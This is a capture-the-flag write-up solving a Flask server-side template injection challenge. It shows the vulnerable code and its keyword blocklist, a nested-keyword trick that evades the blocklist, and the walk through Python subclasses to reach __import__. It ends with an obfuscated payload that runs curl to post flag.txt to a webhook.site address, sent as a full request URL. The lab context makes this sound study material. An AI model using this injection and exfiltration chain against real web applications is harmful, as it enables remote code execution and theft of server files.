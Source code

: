 ```yaml
---
created: 2021-12-21T23:50
updated: 2024-06-10T23:38
---
```


## Super Secure Trustable Implementation

> I've added a bunch of filters, so my app must be really secure now.
>
> Flag in `flag.txt`
>
> URL: http://35.240.143.82:4209/

The source, `main.py` is included hence we should take a look.

```python
import secrets
from flask import Flask, render_template_string, request

app = Flask(__name__)


@app.route("/")
def index():
    name = request.args.get("name", default="World")
    # Evil hacker cannot get past now!
    blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
    for bad in blocklist:
        name = name.replace(bad, "")
    return render_template_string(f"<h1> Hello, {name}")
```

Since the server uses `render_template_string` its vulunerable to `{{}}` template string attacks.

If we use `{{ 'Hello'+' '+'World' }}` for name, it would give us `Hello World` as the string inside is ran as code.

### Blocklist Bypass

However as we can see, there is an blocklist, and it includes `{{` and `}}`.

To bypass this filter we can simply insert blocklisted words inside of blocklisted words. For example

`{flag{}flag}` will not trigger when checking for `{{` and `}}`, but will have `flag` removed when checking for flag, and would result in `{{}}` as the end output.

Making use of this, we can construct our payloads with the help of a little script.

> I had troubles with reading the file so I decidede to just send the file content via curl
>
> webhook.site is a easy to use site for sending data back

```python
bypass = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read"]
bypass.reverse()
payload = ''
for toby in bypass:
    payload = payload.replace(toby, toby[0] + "read" + toby[1:])
print(payload)
name = payload
blocklist = ["{{", "}}", "__", "subprocess", "flag", "popen", "system", "os", "import", "read", "flag.txt"]
for bad in blocklist:
    name = name.replace(bad, "")
print(f"<h1> Hello, {name}")
```

### Bypassing certain unknown filters

If one simply use `__import__`, one will soon realise that it does not exist, this could have been done by deleting built-ins from the python run time.

We can restore the built-ins via `reload(__builtins__)`, however it is obviously, also deleted.

We need to find `__import__` somehow.

With some experimenting, we can find that

```python
>>> ().__class__.__bases__
(<type 'object'>,)
```

The tuple inherits directly from `object`, hence we can find the list of types (extends object) by sending the payload

##### `{{().__class__.__bases__[0].__subclasses__()}}`

```
Hello, [<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>... <class 'flask.blueprints.BlueprintSetupState'>]
```

Much of the output is useless, `_frozen_importlib_external.FileLoader` looks a bit suspicious though. (it is at position 118)

##### `{{().__class__.__bases__[0].__subclasses__()[118]}}`

```
Hello, <class '_frozen_importlib_external.FileLoader'>
```

Just verifying that the class is the `FileLoader`, now lets see what builtins this FileLoader has

##### `{{().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"]}}`

```
Hello, {'__name__': 'builtins' ... '__import__': <built-in function __import__>,  ...help, or help(object) for help about object.}
```

**Hooray!** We found `__import__`, now we just have to combine the payload into

```python
{{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flflag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

`flag.txt` is manually bypassed since it contains `flag`

### Transforming the payload

```
{read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}

<h1> Hello, {{(().__class__.__bases__[0].__subclasses__()[118].__init__.__globals__["__builtins__"])["__im"+"port__"]("o"+"s").system("curl -X POST --data-binary @flag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}}
```

The first line is our payload, and after running the same blocklist operations as the server, the resulting string looks ok.

### Sending the payload

`http://35.240.143.82:4209/?name={read{(()._read_class_read_._read_bases_read_[0]._read_subclasses_read_()[118]._read_init_read_._read_globals_read_["_read_builtins_read_"])["_read_im"+"port_read_"]("o"+"s").sreadystem("curl -X POST --data-binary @flfreadlag.txtag.txt https://webhook.site/40a3fae4-f378-4100-837c-8f94953fbbc9")}read}`

And after checking webhook.site

```
flag{server_side_rendering_is_fun_but_dangerous_sometimes}
```

Flag obtained
